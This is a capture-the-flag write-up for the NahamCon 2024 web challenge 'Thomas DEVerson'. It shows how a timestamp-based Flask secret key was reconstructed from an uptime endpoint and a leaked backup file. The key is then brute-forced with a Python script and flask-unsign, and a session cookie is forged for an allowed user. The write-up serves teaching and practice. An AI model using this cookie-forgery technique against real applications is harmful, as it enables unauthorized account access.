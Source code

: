 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | Thomas DEVerson Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: Thomas DEVerson
tags: "web, legend, nigamelastic, twh, api, flask, flask-unsign"
date: 2024-05-28T00:00:00+00:00
last_update: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## Thomas DEVerson
> Solved by : Legend, nigamelastic, thewhiteh4t


- The site has 3 endpoints `messages` `login` and `status`
- if you put any random query as post on the login u are redirect to ‘messages’ without being logged in. 
- we find another directory called `backup` which has the following content.

```
command output: {head -n 10 app.py}

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

command output: {head -n 10 requirements.txt}

Flask==3.0.3
```

- All accounts show an error message on login attempts : `a``ccount is protected!`


- however the responses had some interesting cookies :

```
HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Thu, 23 May 2024 23:17:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Vary: Cookie
Set-Cookie: session=.eJwNxcENgCAMBdBV6j8zgUcdwxDTYEUTKYaWk3F3fZf3YN0vtkMM4_KA_A9FzDgLAmZWrU5XzacSG029tUCcUu3qdBrdrbokl21AfGOAchGMyF3M8X7pNCAR.Zk_Olw.CgFkkfYZmHi5O8_eaqSwj7VohO8; HttpOnly; Path=/
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

- these look like JWT but these are slightly different
- flask cookies can be decoded using `flask-unsign` tool
- for example cookies on the homepage can be decoded like this : 

```
> flask-unsign --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlDcbw.D5h97i6PYmF5THUXwBgTVzPXMbU' --decode
{'name': 'guest'}
```

- although the cookie can be read but it is signed, if we want to manipulate the cookie we need a `secret key` which was used in the app to sign the new new cookie
- going back to `/backup` we can see how the app generated the secret key :

```python
c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'
```

- and lets also take a look at the `/status` endpoint :

```
System healthy! Computing uptime... 82817 days 9 hours 48 minutes
```

- here the hint is that app was started once and it is running without fail
- we can roughly calculate the launch time using the following logic : 

```
launch time = current time - uptime
```

- this can easily be done using a python script but we wont get the exact time the key was generated because app launch and key generation will have different timings depending on multiple factors so we need to adjust the launch time a bit to get the exact key generation time

```
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta

base_url = 'http://challenge.nahamcon.com'
port = 30311
path = 'status'

url = f'{base_url}:{port}/{path}'
rqst = requests.get(url)

resp = rqst.text.split('\n')[1].split(' ')

days = int(resp[0])
hours = int(resp[2])
mins = int(resp[4])

uptime = timedelta(days=days, hours=hours, minutes=mins)

current_time = datetime.now()

launch_time = current_time - uptime

with open('list.txt', 'w') as outfile:
        for i in range(0, 1000):
                forward_time = launch_time - timedelta(minutes=i)
                format_time = forward_time.strftime("%Y%m%d%H%M")
                key = f'THE_REYNOLDS_PAMPHLET-{format_time}'
                outfile.write(key + '\n')
```

![](https://i.imgur.com/yPpAVlm.png)

- so now we have a list of possible keys which we can test using `flask-unsign` :


![](https://i.imgur.com/KzAzrbN.png)

- SECRET_KEY : `THE_REYNOLDS_PAMPHLET-179708250845`
- now we can easily modify the cookie and use any of the allowed usernames to read `/messages`

```
> flask-unsign --cookie "{'name': 'Burr'}" --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845'
eyJuYW1lIjoiQnVyciJ9.ZlDfmg.x3PYD73ZIkbVJhdpJ4c8UdYfGyg
```

![](https://i.imgur.com/IBfF7Bi.png)

